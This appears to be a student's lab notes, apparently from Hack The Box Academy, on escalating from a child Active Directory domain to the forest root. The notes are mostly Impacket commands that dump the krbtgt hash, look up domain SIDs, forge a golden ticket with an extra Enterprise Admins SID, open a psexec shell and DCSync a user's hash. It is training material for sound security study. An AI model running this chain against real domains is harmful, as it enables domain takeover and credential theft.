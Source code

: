 # Script Kiddie
```shell-session
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
# Manual
get the NTLM hash for the account
```
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
the hash is the nthash in the format of domain\uid:rid:lmhash:nthash

get child domain sid
```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```
get enterprise admin rid
```shell-session
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```
there might be a list so you take the initial domain sid and then add the last few digits according to what we find

construct golden ticket 
```shell-session
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```
set env variable
```shell-session
export KRB5CCNAME=hacker.ccache 
```

connect using impacket psexec.py
```shell-session
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

```
secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-ntlm -just-dc-user bross
```
do a dcsync in order to extract hashes? 
